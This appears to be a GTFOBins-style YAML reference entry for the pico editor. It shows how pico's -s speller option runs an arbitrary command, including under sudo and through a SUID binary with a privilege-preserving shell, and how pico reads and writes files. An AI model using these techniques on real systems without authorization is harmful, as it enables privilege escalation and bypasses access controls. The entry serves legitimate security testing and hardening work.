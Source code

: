 ```yaml
---
functions:
  execute-non-interactive:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        pico -s $TF
        ^T
  sudo-enabled:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        sudo pico -s $TF
        ^T
  suid-enabled:
    - description: After running this exit the editor to see the command output.
      code: |-
        COMMAND=id
        TF=$(mktemp)
        echo $'#!/bin/sh -p\n'"$COMMAND" > $TF
        chmod +x $TF
        ./pico -s $TF
        ^T
  file-read:
    - code: |
        pico file_to_read
  file-write:
    - code: |
        pico file_to_write
        ^O
---
```

